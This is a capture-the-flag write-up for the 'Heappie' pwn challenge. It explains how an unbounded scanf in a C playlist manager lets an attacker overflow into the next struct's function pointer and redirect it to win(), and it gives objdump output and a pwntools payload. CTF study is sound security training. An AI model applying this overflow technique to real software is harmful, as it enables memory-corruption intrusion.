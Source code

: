 # Heappie ⚪

[< Go back](../../README.md)

## Description

Heappie is a simple application that allows you to save and play your favorite songs. Find a way to exploit it and read the flag.

nc pwn.heroctf.fr 6000

Author : xanhacks

all files in [resources/](./resources) were provided.

## Challenge

We have access to the source code of a playlist manager written in C. There are obvious buffer overflow vulnerabilities in the code especially since most interactions with the user are done via `scanf("%s")`, here we will be exploiting this one:

```c
printf("Enter music description: ");
scanf("%s", music->description); // Overflow
```

Music is a struct, the playlist is a linked list of Music's:

```c
typedef struct Music {
    void (*play)(struct Music*);

    char title[32];
    char artist[32];
    char description[128];
} Music;

Music* playlist = NULL;
```

The fact that the last element in the struct is the one we can exploit via the vulnerable `scanf()` is great. Because the first value is a function pointer, the playlist is a linked list and there is not much going on in memory we can guess that blocks will be created in succession if done correctly, This means that overflowing the description field will write in the non existant next Music in the linked list.

Let's make an exploit that will pre-fill the `void (*play)(struct Music*);` for the next playlist element with the address of the `win()` function and then call the `play()` function.

Now that our theory is clear, let's go for dynamic analysis and actually creating the payload and exploit.

```bash
objdump -S heappie
#    00000000000011f9 <win>
#    000000000000127d <play_1>
#    00000000000012b3 <play_2>
#    00000000000012e9 <play_3>

nc pwn.heroctf.fr 6000
#    4. Show playlist
#    >> 4
#    Your playlist:
#     1. AAAA by BBBB (song: 0x55e44d0a32e9)
#     2. psum by dolor (song: (nil))
#     3. 1 by 2 (song: 0x55e44d0a32e9)
#     4. 3 by 2 (song: 0x55e44d0a327d)
```

Great so when we look at the playlist we can see the address that was randomly choosen for the `play()` function pointer.

From the ending values of those addresses we can see they align with what we see in the objdump, we can now calcualte the offset to point to the `win()` function.

In terms of pwntools here is what the generated payload will look like:

```python
b'A' * 128 + p64(int(memory_address[:-3] + "1f9", 16))
```

Let's go for the exploit, take a look at [exploit.py](./exploit.py).
